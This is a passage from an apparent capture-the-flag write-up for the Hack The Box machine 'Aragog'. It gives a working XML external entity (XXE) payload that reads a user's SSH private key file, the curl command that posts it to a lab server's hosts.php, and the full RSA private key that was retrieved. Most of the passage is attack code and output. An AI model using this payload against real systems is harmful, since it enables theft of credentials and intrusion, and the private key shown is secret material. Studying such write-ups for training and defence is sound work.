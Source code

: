 Time to get dem' SSH keys!

I craft a new XML document and save as `florian-key.xml`
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///home/florian/.ssh/id_rsa" >]>

<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
```

I throw this one at `hosts.php` and redirect the output to `./florian.key`. 
```bash
root@vmw-kali:~/htb/aragog# curl -X POST -d @florian-key.xml 10.10.10.78/hosts.php > florian.key                                                         
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                                                          
                                 Dload  Upload   Total   Spent    Left  Speed
100  1933  100  1725  100   208   2751    331 --:--:-- --:--:-- --:--:--  3082    
```

After a little clean up, I've got a RSA key for **florian**.
```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA50DQtmOP78gLZkBjJ/JcC5gmsI21+tPH3wjvLAHaFMmf7j4d
+YQEMbEg+yjj6/ybxJAsF8l2kUhfk56LdpmC3mf/sO4romp9ONkl9R4cu5OB5ef8
lAjOg67dxWIo77STqYZrWUVnQ4n8dKG4Tb/z67+gT0R9lD9c0PhZwRsFQj8aKFFn
1R1B8n9/e1PB0AJ81PPxCc3RpVJdwbq8BLZrVXKNsg+SBUdbBZc3rBC81Kle2CB+
Ix89HQ3deBCL3EpRXoYVQZ4EuCsDo7UlC8YSoEBgVx4IgQCWx34tXCme5cJa/UJd
d4Lkst4w4sptYMHzzshmUDrkrDJDq6olL4FyKwIDAQABAoIBAAxwMwmsX0CRbPOK
AQtUANlqzKHwbVpZa8W2UE74poc5tQ12b9xM2oDluxVnRKMbyjEPZB+/aU41K1bg
TzYI2b4mr90PYm9w9N1K6Ly/auI38+Ouz6oSszDoBeuo9PS3rL2QilOZ5Qz/7gFD
9YrRCUij3PaGg46mvdJLmWBGmMjQS+ZJ7w1ouqsIANypMay2t45v2Ak+SDhl/SDb
/oBJFfnOpXNtQfJZZknOGY3SlCWHTgMCyYJtjMCW2Sh2wxiQSBC8C3p1iKWgyaSV
0qH/3gt7RXd1F3vdvACeuMmjjjARd+LNfsaiu714meDiwif27Knqun4NQ+2x8JA1
sWmBdcECgYEA836Z4ocK0GM7akW09wC7PkvjAweILyq4izvYZg+88Rei0k411lTV
Uahyd7ojN6McSd6foNeRjmqckrKOmCq2hVOXYIWCGxRIIj5WflyynPGhDdMCQtIH
zCr9VrMFc7WCCD+C7nw2YzTrvYByns/Cv+uHRBLe3S4k0KNiUCWmuYsCgYEA8yFE
rV5bD+XI/iOtlUrbKPRyuFVUtPLZ6UPuunLKG4wgsGsiVITYiRhEiHdBjHK8GmYE
tkfFzslrt+cjbWNVcJuXeA6b8Pala7fDp8lBymi8KGnsWlkdQh/5Ew7KRcvWS5q3
HML6ac06Ur2V0ylt1hGh/A4r4YNKgejQ1CcO/eECgYEAk02wjKEDgsO1avoWmyL/
I5XHFMsWsOoYUGr44+17cSLKZo3X9fzGPCs6bIHX0k3DzFB4o1YmAVEvvXN13kpg
ttG2DzdVWUpwxP6PVsx/ZYCr3PAdOw1SmEodjriogLJ6osDBVcMhJ+0Y/EBblwW7
HF3BLAZ6erXyoaFl1XShozcCgYBuS+JfEBYZkTHscP0XZD0mSDce/r8N07odw46y
kM61To2p2wBY/WdKUnMMwaU/9PD2vN9YXhkTpXazmC0PO+gPzNYbRe1ilFIZGuWs
4XVyQK9TWjI6DoFidSTGi4ghv8Y4yDhX2PBHPS4/SPiGMh485gTpVvh7Ntd/NcI+
7HU1oQKBgQCzVl/pMQDI2pKVBlM6egi70ab6+Bsg2U20fcgzc2Mfsl0Ib5T7PzQ3
daPxRgjh3CttZYdyuTK3wxv1n5FauSngLljrKYXb7xQfzMyO0C7bE5Rj8SBaXoqv
uMQ76WKnl3DkzGREM4fUgoFnGp8fNEZl5ioXfxPiH/Xl5nStkQ0rTA==
-----END RSA PRIVATE KEY-----
```
